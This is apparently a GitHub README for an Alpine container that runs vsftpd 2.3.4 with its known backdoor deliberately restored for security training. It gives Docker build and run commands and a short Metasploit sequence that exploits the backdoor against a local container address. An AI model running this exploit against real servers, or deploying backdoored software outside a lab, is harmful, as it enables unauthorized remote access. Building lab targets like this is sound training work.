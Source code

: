 # vsftpd-2.3.4-container
Alpine Linux based container image with a vulnerable version of vsftpd-2.3.4 for use in cybersecurity training environments. Supports both amd64 and armv8 architectures.

## Changes to source code

Downloaded official source code from: https://security.appspot.com/downloads/vsftpd-2.3.4.tar.gz

The official source release of 2.3.4 (above link) doesn't have the vulnerable backdoor and I couldn't find an official source for it.

However I did find another Github user's repo with the infected version: https://github.com/nikdubois/vsftpd-2.3.4-infected/commit/e084c9543947d9509ea74731adca427418604cc2 which I've incorporated into `str.c` and `sysdeputil.c` in order to make it exploitable using msf. 

Other changes are made to source to make it build with the Alpine C library in the Dockerfile during container image build.

## Use my published image from docker hub

```
docker run --name vsftpd-2.3.4 -it clintmint/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Exploiting with msf

```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdooruse exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.17.0.2
exploit
````

## Docker build & run

```
git clone https://github.com/clintmint/vsftpd-2.3.4-container.git
cd vsftpd-2.3.4-container
docker build -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
docker run --name vsftpd-2.3.4 -it <docker-hub-username>/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Multi-architecture build and push for linux/amd64 (Intel/AMD CPUs) and linux/arm64 (for Macs using M1 chip)

```
docker login
docker buildx create --use
docker buildx build --platform linux/amd64,linux/arm64 --push -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
```
